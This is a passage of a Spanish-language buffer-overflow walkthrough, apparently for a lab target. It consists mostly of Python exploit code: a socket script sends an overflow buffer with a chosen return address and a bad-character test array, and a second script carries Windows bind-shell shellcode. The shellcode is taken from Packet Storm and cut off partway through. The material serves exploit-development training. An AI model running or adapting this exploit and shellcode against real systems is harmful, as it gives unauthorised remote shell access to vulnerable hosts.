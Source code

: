 


#146
#080414c3 
#badchars \x00 \x0a
buf    =  "\x41" * 146
buf +=  "\xc3\x14\x04\x08"
buf   += "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21"
buf   += "\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41"
buf   += "\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61"
buf   += "\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81"
buf   += "\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1"
buf   += "\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1"
buf   += "\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1"
buf   += "\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

 

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buf + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
Yo he elegido esta dirección: 0x080414c3 se debe de introducir como esta en el python  de DERECHA A IZQUIERDA.

Buscaremos en google una binshell adecuada tomamos como ejemplo está : https://packetstormsecurity.com/files/156148/Windows-x86-Dynamic-Bind-Shell-Null-Free-Shellcode.html

Debe quedar así:

```
import socket

ip = "10.10.181.233"
port = 31337

#bindshell
shellcode = "\x55\x89\xe5\x83\xec\x60\x31\xc0\x66\xb8\x73\x73\x50\x68\x64\x64\x72\x65\x68\x72\x6f\x63\x41\x68\x47\x65"
shellcode += "\x74\x50\x89\x65\xfc\x31\xc0\x64\x8b\x40\x30\x8b\x40\x0c\x8b\x40\x1c\x89\xc3\x8b\x03\x89\xc3\x8b\x03\x8b"
shellcode += "\x40\x08\x89\x45\xf8\x8b\x58\x3c\x01\xc3\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf4\x8b\x4b\x24"
shellcode += "\x01\xc1\x89\x4d\xf0\x8b\x53\x1c\x01\xc2\x89\x55\xec\x8b\x53\x14\x31\xc0\x8b\x7d\xf4\x8b\x75\xfc\x31\xc9"
shellcode += "\xfc\x8b\x3c\x87\x03\x7d\xf8\x66\x83\xc1\x0f\xf3\xa6\x74\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf0\x8b\x55\xec"
shellcode += "\x66\x8b\x04\x41\x8b\x04\x82\x03\x45\xf8\x89\x45\xe8\x31\xd2\x52\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72"
shellcode += "\x68\x4c\x6f\x61\x64\x54\xff\x75\xf8\x8b\x45\xe8\xff\xd0\x89\x45\xe4\x31\xc0\x66\xb8\x33\x32\x50\x68\x77"
shellcode += "\x73\x32\x5f\x54\x8b\x5d\xe4\xff\xd3\x89\x45\xe0\x31\xd2\x66\xba\x75\x70\x52\x68\x74\x61\x72\x74\x68\x57"